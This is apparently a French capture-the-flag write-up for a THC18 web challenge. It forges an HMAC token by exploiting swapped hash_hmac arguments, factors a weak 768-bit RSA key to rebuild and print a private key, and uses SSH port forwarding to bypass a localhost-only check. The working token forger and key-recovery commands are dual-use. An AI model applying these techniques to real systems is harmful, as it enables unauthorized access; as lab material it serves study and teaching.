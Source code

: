 #### Write-up

Ce challenge présente un site permettant de récupérer la clé publique d'un utilisateur.
La formulaire accepte deux entrées `id` et `token`. On constate directement que l'id est `webmonster` d'après la description de challenge.

*index.php*
```
...
if( !empty($_POST['id']) && !empty($_POST['token']) ) {

    include('/usr/share/ext_func.php');

    echo "<hr/>";
    
    if(!check_id($_POST['id'])) {
    	echo "<div>Login incorrect.</div>";
    	exit;
    }

    $secret = get_secret($_POST['id']);
    $algo = 'sha256';
    
    $obs_login = substr_replace($_POST['id'], $secret, floor(strlen($_POST['id'])/2), 0);
    
    $hmac64 = hash_hmac($secret, base64_encode($obs_login), $algo, false);

    if($hmac64 !== $_POST['token']) {
    	echo "<div>Token incorrect.</div>";
    } else {
        echo "<h3>You got it!</h3><br>";
        echo get_pub_key($_POST['token']);
...
```

Et à partir de code source `index.php`, on constate que `token` est un **hash\_hmac** d'une chaîne de caractères.
On peut essayer directement d'aller à la page `get_flag.php` mais bien sûr que c'est interdit (ce n'est pas si facile).
Le premier objectif est de récupérer alors la clé publique `webmonster`.
Il faut passer la vérification `token`.
Si on réussit à trouver la valeur `$secret`, c'est facile à refaire chaque instruction pour trouver le token.
En fait, pour réussir la vérification de token, il faut juste regarder comment fonctionne la fonction php `hash_hmac`.

```
string hash_hmac ( string $algo , string $data , string $key [, bool $raw_output = false ] )
```
Dans ce challenge, le secret et l'algoritme sont inversés.
Comme `$algo='sha256'` (qui est le secret), par une simple assumption, on sait que `$secret='sha256'` (qui est l'algorithme utilisé).
Maintenant on connait le secret et l'algo, donc on refait chaque instruction. Voici un exemple de code sur python.
```
import base64, hashlib, hmac
login = 'webmonster'
secret = 'sha256'
# substr_replace
obs_login = login[:len(login)/2] + secret + login[len(login)/2:]
# hash_hmac w/ sha256
hmac64 = hmac.new(secret, base64.b64encode(obs_login), hashlib.sha256)
print 'id = ' + login + '\ntoken = ' + hmac64.hexdigest()
```
On trouve alors,
```
id = webmonster
token = 16a69f056965ba5f763033797d7a42b6c983d0121a494b3d610f99e0aa41d7f6
```
On réussit la première étape et on ne peut pas toujours accéder la page `get_flag.php`.
On récupère ensuite la clé publique d'utilisateur `webmonster`.
On a la clé publique mais on ne peut rien faire.
On essaie alors d'inspecter cette clé publique en utilisant cette commande
```
openssl rsa -in <pub_key> -pubin -text -modulus
```
On constate que c'est une clé de 768 bits. Elle est plus petite que la taille conseillée 1024 bits.
Comme on a la valeur `N`, on regarde si elle est factorisée sur le site factordb.com
afin de trouver les valeurs `p` et `q` (*lisez une explication simple de RSA https://www.pagedon.com/rsa-explained-simply/programming*).

Voila, jackpot! `N` est factorisée. On a toutes les valeurs nécessaires pour créer la clé privée correspondante.
```
N: cad984557c97e039431a226ad727f0c6d43ef3d418469f1b375049b229843ee9f83b1f97738ac274f5f61f401f21f191
   3e4b64bb31b55a38d398c0dfed00b1392f0889711c44b359e7976c617fcc734f06e3e95c26476091b52f462e79413db5
p: d982ec7b440e2869d2535e51f91bacc3eb6eba042e106e6f875c3d17e53db65fffd6e4e9a36084ce60f83d754dd7f701 
q: eebe6dd23ce7e99c0e2249fecc4418c34af74e418bfa714c3791828414ab18f32fd7e093062a49b030225cc845f99ab5
e: 10001
```

On peut utiliser plusieurs outils sur le net pour construire la clé privée, par exemple `rsatool` (https://github.com/ius/rsatool).
Dans cet exemple, on utilise un code python trouvé ici https://gist.github.com/gnpar/89224485386acf83ec01daf7503b2c3b

```
python gen-key.py p q e > asn1.conf
openssl asn1parse -genconf asn1.conf  -out key.der
openssl rsa -in key.der -inform der -text -check
```
```
-----BEGIN RSA PRIVATE KEY-----
MIIBywIBAAJhAMrZhFV8l+A5Qxoiatcn8MbUPvPUGEafGzdQSbIphD7p+Dsfl3OKwnT19h9AHyHx
kT5LZLsxtVo405jA3+0AsTkvCIlxHESzWeeXbGF/zHNPBuPpXCZHYJG1L0YueUE9tQIDAQABAmB0
DeSHYEQoNbqtXhmQRTqdFtt5dtP4u5i/mcDAHL6bnBK4CMgGg9HjRsFseawWKHTyjKYQwbl+Xh/6
6VclzgxrAxw+GIsXGHp5OzIsxABMVo52ybJYVC6iotbs1GL/9AECMQDZgux7RA4oadJTXlH5G6zD
6266BC4Qbm+HXD0X5T22X//W5OmjYITOYPg9dU3X9wECMQDuvm3SPOfpnA4iSf7MRBjDSvdOQYv6
cUw3kYKEFKsY8y/X4JMGKkmwMCJcyEX5mrUCMQCXWi353DJJ1tDe6Bv8TlCah+GlmLEBCAedVgbA
8OhPVl+tBd65q7jd7sXt5glDxQECMQCnEe/8Xc7U9fYWHL4H5+eEUuO5ibkRK1Pw1w0ErQoGzbe/
VFLOz6z9dNG3KBd/0rkCMH6J+q8/eK2Vi+vGXc92zSHplI4rshqBvhCfrDcrtBuu7b38Z1dz+ky1
xc4ZO17bnA==
-----END RSA PRIVATE KEY-----
```

On voit que le serveur ssh tourne sur le port `2222` (attention au mapping de port) et on essaie alors de se connecter.
```
$ ssh -i <priv_key> webmonster@localhost -p 2222
This service allows sftp connections only.
Connection to localhost closed.
```
*-i: préciser la clé privée à utiliser*


Malheureusement, la connexion ssh est interdit mais pas sftp.
On se connecte en sftp afin de télécharger le code source `get_flag.php`.
```
$acl_ok = ['127.0.0.1', '::1'];
if (in_array($_SERVER['REMOTE_ADDR'], $acl_ok)) {
	echo exec('cat /usr/share/flag');
} else {
    echo "Ops, still forbidden.";
}
```
On comprend maintenant qu'il faut se connecter à partir de `localhost` pour récupérer le flag.
Il reste alors de faire une redirection ssh (on peut toujours faire la redirection même si la connexion ssh est interdit pour cet utilisateur).
```
ssh -i <priv_key> -N -L 8888:localhost:80 webmonster@localhost -p 2222
```
*-N: forcer ssh de faire seulement la redirection de port*  
*-L: redirection ssh*

On visite `http://localhost:8888/get_flag.php` et récupère le flag! `THC18{M0nsterISzSc4ry!}`
